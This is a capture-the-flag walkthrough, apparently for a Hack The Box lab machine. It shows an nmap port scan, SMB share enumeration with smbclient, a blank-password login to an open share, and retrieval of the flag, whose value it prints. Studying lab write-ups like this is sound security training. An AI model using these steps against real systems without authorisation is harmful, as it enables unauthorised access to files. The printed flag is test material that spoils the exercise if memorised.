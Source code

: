 ![Dancing.png](/assets/dancing.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.220.36
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.220.36
```

**Output**
```bash
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
```
> To attack **445** port.

3. Connect with **smbcliente**
```bash
┌──(root㉿kali)-[/home/kali]
└─| smbclient -L 10.129.220.36
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.220.36 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

+ Use a **Sharename** without `$`
+ We use this to login without password.


4. Login with **smblclient** to **WorkShare**
```bash
┌──(root㉿kali)-[/home/kali]
└─| smbclient \\\\10.129.220.36\\WorkShares
Password for [WORKGROUP\root]:
```
* Leave blank the **password field** 



5. Entry to **James.P** directory and get the **flag.txt** file.
```bash
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1732519 blocks available
smb: \James.P\> get flag.txt
```

6. Go to path **/home/kali** list files and read `flag.txt` 
```bash
┌──(kali㉿kali)-[~]
└─$ cat flag.txt 
5f61c10dffbc77a704d76016a22f1664 

```

**By: EsT**